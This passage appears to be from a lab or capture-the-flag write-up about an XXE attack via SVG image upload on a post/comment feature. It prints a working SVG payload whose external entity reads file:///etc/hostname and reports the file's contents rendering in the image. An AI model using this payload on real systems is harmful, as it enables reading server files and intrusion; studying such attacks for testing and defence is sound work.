


The post allows us to add images that are SVG formats. We can try to create an XML document as the SVG format uses XML. The SVG image has the following payload: 

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Adding this image and uploading a comments makes the image to render with the contents of `///etc/hostname`:


